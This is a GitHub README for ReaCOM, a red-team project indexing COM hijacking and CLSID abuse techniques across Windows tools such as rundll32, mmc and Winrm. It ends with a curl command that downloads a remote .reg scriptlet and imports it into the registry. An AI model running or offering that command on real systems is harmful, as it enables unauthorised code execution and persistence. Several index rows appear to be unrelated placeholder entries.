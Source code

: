 # ReaCOM project

<table>
 <tr>
  <td><a href="Classes/Runonce.md">Runonce.exe/COM Hijacking</a></td>
  <td><a href="Classes/URLProtocol.md">URLProtocol/COMHijacking</a></td>
  <td><a href="Classes/Signature-Tools/Openwith.md">Openwith.exe/COMHijacking</a></td>
  <td><a href="Classes/rundll32.md">Rundll32/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/xwizard.md">xwizard/CLSID</a></td>
  <td><a href="Classes/xwizards.dll.md">DLL/CLSID</a></td>
  <td><a href="Classes/mmc.md">MMC/CLSID</a></td>
 </tr>
 <tr>
  <td><a href="Classes/Signature-Tools/explorer.md">Explorer.exe/COMHijacking</a></td>
  <td><a href="Classes/COMScripetlet.reg">Scripetlet/File</a></td>
  <td><a href="Classes/Powershell.md">Powershell/CLSID</a></td>
 </tr>
 <tr>  
  <td><a href="Classes/Verclsid.md">Verclsid.exe</a></td>
  <td><a href="Classes/Winrm.md">Winrm.vbs</a></td>
  <td><a href="Classes/Winrm.md">Winrm.cmd</a></td>
 </tr>
 <tr>
  <td><a href="Classes/prncnfg.md">Prncnfg.vbs</a></td>
  <td><a href="Samples/CameraGetPreviewFrame">Being implmented</a></td>
  <td><a href="Samples/CameraProfile">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/CameraResolution">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCoordinateMapper">Being implmented</a></td>
  <td><a href="Samples/CameraStreamCorrelation">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/LiveDash">Being implmented</a></td>
  <td><a href="Samples/D2DPhotoAdjustment">Being implmented</a></td>
  <td><a href="Samples/MediaEditing">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/MediaImport">Being implmented</a></td>
  <td><a href="Samples/XamlCustomMediaTransportControls">Being implmented</a></td>
  <td><a href="Samples/MIDI">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/Playlists">Being implmented</a></td>
  <td><a href="Samples/PlayReady">Being implmented</a></td>
  <td><a href="Samples/CameraOpenCV">Being implmented</a></td>
 </tr>
 <tr>
  <td><a href="Samples/SimpleImaging>Being implmented</a></td>
  <td><a href="Samples/SpatialSound">Being implmented</a></td>
  <td><a href="Samples/SystemMediaTransportControls">Being implmented</a></td>
 </tr>

</table>
   
  ### ReaCOM/Framework 
ReaCOM is project has a multiple of contributes to understand component object model COM can provide you a lot use more than one tool to hijacking COM object regardless other features are based on some different methods.

ReaCOM targets COM techniques from different types of COM execution and shows research from different authors, COM object is one of the most popular techniques for the red team in twitter and everywhere, so that we are all here to show some tools can do hijacking COM objects and execute its code by abusing some tools in system operating.
 

### Ackknowledgement
* [Bohops](https://twitter.com/bohops)
* [Matt Nelson ](https://twitter.com/enigma0x3)

* [Casey Smith](https://twitter.com/subTee)


### General Acknowledgement
Thanks everyone for working together to find these great tools.



### Start using COM technique after watching this:
![GIF](https://user-images.githubusercontent.com/25440152/59564365-c880f000-8ffa-11e9-914d-d974baf5dfbc.gif)

The command used in the gif above:
```
curl.exe --remote-time https://raw.githubusercontent.com/homjxi0e/ReaCOM/master/Classes/COMScripetlet.reg --write-out rrr.reg --output tttt.reg; echo '' '' ; reg import .\tttt.reg

```

